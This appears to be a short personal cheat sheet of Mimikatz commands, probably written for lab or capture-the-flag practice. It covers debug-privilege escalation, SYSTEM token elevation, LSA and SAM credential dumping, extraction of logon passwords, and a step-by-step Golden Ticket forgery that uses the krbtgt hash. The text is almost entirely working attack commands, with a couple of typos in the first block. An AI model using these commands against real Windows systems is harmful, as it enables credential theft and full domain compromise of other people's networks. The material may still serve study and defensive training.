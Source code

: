 # Mimikatz

```c
privilege::debugv # enables the _SeDebugPrivilge_ access right
token::elevate # elevate the security token Administrator -> SYSTEM
lsadump::lsa /patch
lsadump::sam
sekurlsa::logonPasswords
```

### lsadumping

```c
privilege::debug
lsadump::lsa /patch
lsadump::sam # Dump SAM database
```

### Golden Ticket Attacks
Used in [[Attacking-Kerberos]]
```c
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

Provide values for: `kerberos::golden /user: /domain: /sid: /krbtgt: /id`,
like: `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-SID /krbtgt:HASH /id:ID`,then  
open command prompt with elevated privileges `misc::cmd`.

